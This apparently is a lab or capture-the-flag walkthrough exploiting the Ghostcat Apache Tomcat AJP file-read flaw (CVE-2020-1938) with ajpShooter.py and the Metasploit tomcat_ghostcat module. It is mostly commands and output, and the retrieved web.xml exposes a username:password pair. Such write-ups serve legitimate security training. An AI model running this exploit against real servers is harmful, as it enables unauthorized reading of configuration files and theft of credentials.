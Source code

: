 1) check if the /WEB-INF/web.xml file is readable:
┌──(kali㉿kali)-[~]
└─$ python3 ajpShooter.py  http://10.10.122.77:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks  #username:password
  </description>

</web-app>


--------
1) check if the /WEB-INF/web.xml file is readable, but use metasploit:
- msf6 > search cve:CVE-2020-1938

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

- msf6 > use auxiliary/admin/http/tomcat_ghostcat
- msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name        Current Setting        Required   Description
   AJP_PORT  8009                        no              The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes             File name
   RHOSTS                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080                          yes       The Apache Tomcat webserver port (TCP)
   SSL       false                              yes       SSL

- msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.10.122.77
RHOSTS => 10.10.122.77

- sf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml

- msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.122.77
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

[+] 10.10.122.77:8080 - /home/kali/.msf4/loot/20220930133511_default_10.10.122.77_WEBINFweb.xml_234912.txt
[*] Auxiliary module execution completed
